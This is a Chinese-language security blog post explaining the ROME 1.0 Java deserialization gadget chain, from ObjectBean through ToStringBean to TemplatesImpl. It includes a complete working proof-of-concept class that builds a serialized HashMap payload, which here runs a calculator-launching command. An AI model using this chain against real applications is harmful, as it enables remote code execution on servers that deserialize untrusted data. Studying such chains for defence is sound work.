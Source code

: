 # Java-ROME

  
  
&lt;!--more--&gt;  
## 0x01 前言  
```xml  
&lt;dependency&gt;    
  &lt;groupId&gt;rome&lt;/groupId&gt;    
  &lt;artifactId&gt;rome&lt;/artifactId&gt;    
  &lt;version&gt;1.0&lt;/version&gt;    
&lt;/dependency&gt;  
```  
ROME 是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。  
ROME 兼容了 RSS (0.90, 0.91, 0.92, 0.93, 0.94, 1.0, 2.0), Atom 0.3 以及 Atom 1.0 feeds 格式。  
## 0x02 前置知识  
`com.sun.syndication.feed.impl.ObjectBean`是 Rome 提供的一个封装类型，初始化时提供了一个 Class 类型和Object 对象实例进行封装。  
ObjectBean 也是使用委托模式设计的类，其中有三个成员变量，分别是`EqualsBean/ToStringBean/CloneableBean`类，这三个类为`ObjectBean`提供了`equals`、`toString`、`clone`以及`hashCode`方法  
来看一下`ObjectBean`的`hashCode`方法，会调用`EqualsBean`的`beanHashCode`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162338396.png)
会调用`EqualsBean`中保存的`_obj`的`toString()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162339922.png)
这个`ToStringBean`的`toString()`方法可以触发`_obj`实例的全部`getter`方法，可以用来触发`TemplatesImpl`的利用链  
在`HashMap`中的`readObject`正好调用了`hashCode()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162354073.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162355420.png)
构造`exp`  
```java  
import javassist.ClassPool;    
import javassist.CtClass;    
    
import java.io.IOException;    
import java.io.ByteArrayOutputStream;    
    
import javassist.CannotCompileException;    
import javassist.NotFoundException;    
    
import java.lang.reflect.Field;    
    
    
import java.util.UUID;    
    
import com.sun.syndication.feed.impl.ObjectBean;    
import com.sun.syndication.feed.impl.ToStringBean;    
    
import java.io.*;    
import java.util.Base64;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
    
import javax.xml.transform.Templates;    
import java.util.HashMap;    
    
public class Poc {    
    
    public static void main(String[] args) throws Exception {    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;, null);    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);    
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);    
        HashMap&lt;Object, String&gt; map = new HashMap&lt;&gt;();    
        map.put(objectBean, &#34;huahua&#34;);    
        String payload = serialize(map);    
        unserialize(payload);    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static void unserialize(String base) throws IOException, ClassNotFoundException {    
        byte[] result = Base64.getDecoder().decode(base);    
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(result);    
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);    
        objectInputStream.readObject();    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
    public static byte[] getTemplates() throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
    }    
    
}  
```  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/java-rome/  

